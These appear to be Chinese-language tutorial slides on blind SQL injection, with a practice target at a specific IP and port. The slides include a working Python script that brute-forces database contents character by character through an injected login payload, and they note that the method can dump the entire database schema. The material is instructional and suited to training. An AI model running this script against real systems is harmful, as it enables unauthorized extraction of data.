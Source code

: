 像這個試完 a 不行 那就換 b

中了就換下個字元

~~有恆心毅力的人可以挑戰手解~~

---

這方法是可以拿來把整個 db 架構掏出來的 (搭配前面的 information_schema)

不過在伺服器的記錄裡面會很顯眼 😅

---

試打

<http://140.134.25.138:10015/>

真心推薦寫腳本

可以用 python


---

一點腳本小 demo

---

對不起我只會寫髒code
```python=
import requests
import string

r = requests.Session()

def get_target(target):
   	
	now_chr = 1
	add_chr = ""
	while True :
		flag = 0
		printable = string.printable
		for chr1 in printable :
			payload = {
				'username': "admin' or substring(("+target+"),"+str(now_chr)+",1)='"+chr1+"';",
				'password': 'd'

			}

			index = r.post('http://140.134.25.138:10015/login.php',data=payload)
			if (index.text.find("Success"))>0:
				add_chr += chr1
				flag = 1
				break
		if chr1 == " " or flag == 0:
			break
		now_chr += 1
	return add_chr
def get_all(target):
	count = 0
	while True:
		a = get_target(target+" LIMIT "+str(count)+",1")
		print(a)
		if a =="":
		    break
		count += 1

print(get_target('database()'))
print("----get all table---")
```